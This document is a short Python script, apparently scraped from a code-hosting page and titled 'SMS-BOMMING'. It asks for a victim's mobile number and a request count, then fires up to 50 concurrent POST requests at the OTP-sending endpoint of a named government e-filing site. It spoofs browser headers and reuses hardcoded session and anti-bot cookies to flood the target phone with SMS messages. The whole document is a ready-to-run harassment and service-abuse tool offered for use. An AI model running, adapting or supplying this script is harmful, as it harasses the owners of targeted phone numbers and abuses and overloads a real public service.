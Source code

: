 # SMS-BOMMING
import requests
from concurrent.futures import ThreadPoolExecutor

# Input mobile number and number of requests
mobile_number = input("Enter mobile number: ")
num_requests = int(input("Enter number of requests to send: "))

url = "https://efiling.ebmeb.gov.bd/index.php/eiinsim/sendotp"

headers = {
    "accept": "*/*",
    "accept-language": "en-US,en;q=0.9,ru;q=0.8,zh-TW;q=0.7,zh;q=0.6",
    "cache-control": "no-cache",
    "content-type": "application/x-www-form-urlencoded; charset=UTF-8",
    "origin": "https://efiling.ebmeb.gov.bd",
    "pragma": "no-cache",
    "priority": "u=1, i",
    "referer": "https://efiling.ebmeb.gov.bd/index.php/eiinsim/applicationform",
    "sec-ch-ua": '"Not;A=Brand";v="99", "Google Chrome";v="139", "Chromium";v="139"',
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": '"Windows"',
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "same-origin",
    "user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36",
    "x-requested-with": "XMLHttpRequest",
}

cookies = {
    "__nobotA2": "CgAC02i8kXhmqgAHA5G1Ag==",
    "ci_session": "8dbada59b153e03dcdcfe05e90d3300b272992a9",
}

data = {
    "mobile": mobile_number
}

def send_request(i):
    try:
        response = requests.post(url, headers=headers, cookies=cookies, data=data)
        print(f"[{i+1}] Response: {response.text}")
    except Exception as e:
        print(f"[{i+1}] Error: {e}")

# Use ThreadPoolExecutor for multi-threading
with ThreadPoolExecutor(max_workers=50) as executor:  # you can increase workers for more speed
    executor.map(send_request, range(num_requests))
